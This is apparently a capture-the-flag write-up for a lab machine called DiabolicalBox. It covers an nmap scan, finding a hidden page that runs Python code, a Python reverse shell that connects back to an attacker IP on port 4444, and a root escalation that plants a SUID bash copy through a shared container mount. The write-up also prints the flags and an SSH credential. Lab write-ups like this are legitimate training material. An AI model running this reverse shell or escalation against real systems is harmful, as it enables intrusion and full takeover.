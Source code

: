 # DiabolicalBox

## Enumeration

```bash
└─$ nmap -A -p- -sC -T4 10.10.125.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 09:55 BST
Nmap scan report for 10.10.125.32
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Diabolical Box!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

```bash
/admin
```
### I check the source code of the js login page and I discover an hidden page
password encoded = (dwdvdxdxdxeadxefdwdzdxeidxdudxeedxefdveodxefdwecdwemdxeedvendweqdxeddxeedxdtdweqdxdxdvegdxdxdxdxdvegdxdxdxeadxdzdwes)-> very-intricate-puzzle.html


### On this hidden page we can write python and execute it so i made a reverse shell
#### Python Reverse shell
```python
import	socket,subprocess,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.37.214",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
```

### The reverse shell gives me a shell in a docker container as root

## User FLAG

```cat user.txt``` : EPI{4_93n7L3m4n_n3v3r_L34v35_4_Pu22L3_uN50LV3D}

### I use a python script to decode the the hash to get the ssh credentials 

hershel:PlotTwistItWasHershelAllAlong

## Privilege Escalation

#### On the container :
```bash
cd /mnt/log
mkdir test-dir
chmod 777 test-dir
```
#### On the ssh access :
```bash
cd /var/log/test-dir
cp /bin/bash bash
```
#### On the container :
```bash
chown root:root bash
chmod 4755 bash
```

#### On the ssh access :
```bash
./bash -p
cd /root
```
# Root FLAG

```cat `ls` ```: EPI{D0Nt_9eT_D15c0uR49Ed_K0lleCT_j00r_Th0U9hT2_4ND_TRy_4941n}


## source 

https://shishirsubedi.com.np/thm/pythonp/ | Python Playground Box |
